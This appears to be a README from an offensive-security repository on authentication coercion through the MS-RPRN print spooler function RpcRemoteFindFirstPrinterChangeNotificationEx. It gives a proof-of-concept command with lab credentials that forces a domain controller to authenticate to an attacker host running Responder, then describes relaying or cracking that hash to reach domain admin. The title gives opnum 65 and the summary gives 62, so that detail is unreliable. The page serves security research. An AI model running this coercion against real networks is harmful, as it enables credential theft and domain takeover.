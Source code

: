 # MS-RPRN - Remote call to RpcRemoteFindFirstPrinterChangeNotificationEx (opnum 65)

## Summary

+ **Protocol**: [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1)

+ **Protocol UUID**: 12345678-1234-abcd-ef00-0123456789ab

+ **Protocol version**: 1.0

+ **Function name**: [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d)

+ **Function operation number**: `62`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\spoolss` and bind to (uuid `12345678-1234-abcd-ef00-0123456789ab`, version `1.0`) in order to perform calls to RPC functions of the `MS-RPRN` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\spoolss`. This pipe is connected to the protocol [[MS-RPRN]: Print System Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1) and allows to call RPC functions of this protocol. It will then call the remote [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
RpcRemoteFindFirstPrinterChangeNotificationEx(...)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to ohter services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
DWORD RpcRemoteFindFirstPrinterChangeNotificationEx(
    [in] PRINTER_HANDLE hPrinter,
    [in] DWORD fdwFlags,
    [in] DWORD fdwOptions,
    [in, string, unique] wchar_t* pszLocalMachine,
    [in] DWORD dwPrinterLocal,
    [in, unique] RPC_V2_NOTIFY_OPTIONS* pOptions
);
```


+ **hPrinter**: A handle to a printer or server object that was opened by RpcAddPrinter (section 3.1.4.2.3), RpcAddPrinterEx (section 3.1.4.2.15), RpcOpenPrinter (section 3.1.4.2.2), or RpcOpenPrinterEx (section 3.1.4.2.14).


+ **fdwFlags**: Flags that specify the conditions that are required for a change notification object to enter a signaled state. A change notification MUST occur when one or more of the specified conditions are met.

    This parameter specifies a bitwise OR of zero or more Printer Change Values (section 2.2.4.13). The rules governing printer change values are specified in section 2.2.4.13.


+ **fdwOptions**: The category of printers for which change notifications are returned. This parameter MUST be one of the supported values specified in Printer Notification Values (section 2.2.3.8).


+ **pszLocalMachine**: A pointer to a string that represents the name of the client computer. The rules governing server names are specified in section 2.2.4.16.


+ **dwPrinterLocal**: An implementation-specific unique value that MUST be sufficient for the client to determine whether a call to RpcReplyOpenPrinter (section 3.2.4.1.1) by the server is associated with the hPrinter parameter in this call.<369>


+ **pOptions**: A pointer to an RPC_V2_NOTIFY_OPTIONS (section 2.2.1.13.1) structure that specifies printer or job members that the client listens to for notifications. For lists of members that can be monitored, see Printer Notification Values (section 2.2.3.8) and Job Notification Values (section 2.2.3.3).

    The value of this parameter can be NULL if the value of fdwFlags is nonzero.


## References

+ Documentation of protocol [MS-RPRN]: Print System Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/d42db7d5-f141-4466-8f47-0a4be14e2fc1


+ Documentation of function `RpcRemoteFindFirstPrinterChangeNotificationEx`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d
